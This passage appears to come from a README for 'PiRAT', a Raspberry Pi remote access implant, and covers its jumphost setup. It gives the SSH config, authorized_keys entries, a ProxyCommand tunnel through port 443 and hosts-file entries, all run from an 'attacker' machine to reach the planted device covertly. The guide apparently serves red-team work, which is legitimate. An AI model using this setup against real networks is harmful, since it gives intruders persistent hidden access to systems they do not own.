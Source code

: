   ```bash
  phish@attacker $ ssh -i ~/.ssh/jumphost.pem -p 22 ubuntu@54.66.199.59
  ```

  - It is recommended to harden the ssh config of the jumphost (as it is publicly exposed on the internet) - disable password-based auth etc.. Apart from regular ssh hardening, ensure that fail2ban is setup / configured. 

  - To allow the rpi (PiRAT) to connect to our jumphost, we need to copy over its ssh public key into the `authorized_keys` file on the jumphost. Use `ssh-copy` or `scp` to copy the public key of the rpi to the jumphost.
  
  ```bash
  ubuntu@jumphost:~$ cat ~/.ssh/authorized_keys
  ssh-ed25519 ..public-key-contents-here.. jumphost
  ssh-ed25519 ..public-key-contents-here.. pi@raspberrypi
  ```


### Attacker Machine Config

- Add an entry to `~/.ssh/config/` to connect to the rpi (PiRAT) via the jumphost.
  
  ```
  Host pirat-via-jumphost
    User pi
    IdentityFile ~/.ssh/pi_rat/id_ed25519
    ProxyCommand ssh -i ~/.ssh/pi_rat/jumphost.pem -W localhost:2020 -p 443 ubuntu@jumphost
    LocalForward 1194 127.0.0.1:1194
  ```

- Add a hosts entry for jumphost in the `/etc/hosts` file:
  
  ```conf
  127.0.0.1          localhost
  255.255.255.255    broadcasthost
  ::1                localhost
  13.210.113.204     jumphost
  ```

- Test that ssh works from your attacker machine to the rpi via jumphost.
  
  ```bash
  phish@attacker:~ $ ssh pirat-via-jumphost
  Host key fingerprint is SHA256: ...
  +---[RSA 2048]----+
  |              ...|
  |             = o.|
  |            o /.=|
  |         . . = /%|
  |        S o . BE@|
  |         .   *o*.|
  |            o.=..|
  |           . . .o|
  |            .o=B*|
  +----[SHA256]-----+
  Host key fingerprint is SHA256: ...
  +---[RSA 2048]----+
  |               +o|
  |                E|
  |                .|
  |      o ..o    . |
  |       =S. +o o  |
  |    . o ..oooo . |
  |   o .++.+o+ .o  |
  |    +..X+.Ooo*   |
  |     oB==+.== .  |
  +----[SHA256]-----+

  pi@raspberrypi:~ $
  ```